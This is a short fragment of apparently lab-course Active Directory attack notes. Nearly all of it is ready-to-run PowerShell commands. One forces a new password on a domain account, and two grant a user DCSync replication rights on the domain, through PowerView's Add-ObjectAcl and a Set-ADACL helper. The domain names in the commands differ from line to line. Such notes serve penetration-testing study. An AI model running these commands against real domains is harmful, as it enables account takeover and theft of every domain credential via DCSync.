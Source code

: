 		- Using ActiveDirectory Module:
		`Set-AdAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose`


## ACLs - Rights Abuse
- Add rights for DCSync:
`Add-ObjectAcl -TargetDistinguishedName 'DC=dolarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student1 -Rights DCSync -Verbose`
- using ActiveDirectory Module and Set-ADACL:
`Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=money,DC=local' -Principal student1 -GUIDRight DCSync -Verbose`

